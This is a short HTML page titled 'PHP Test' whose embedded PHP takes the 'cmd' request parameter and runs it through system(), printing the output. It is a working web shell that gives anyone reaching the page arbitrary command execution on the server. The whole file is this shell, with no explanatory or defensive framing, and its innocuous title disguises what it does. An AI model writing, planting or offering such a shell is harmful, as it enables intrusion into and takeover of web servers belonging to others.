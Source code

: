 <html>
 <head>
  <title>PHP Test</title>
 </head>
 <body>
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
 </body>
</html>
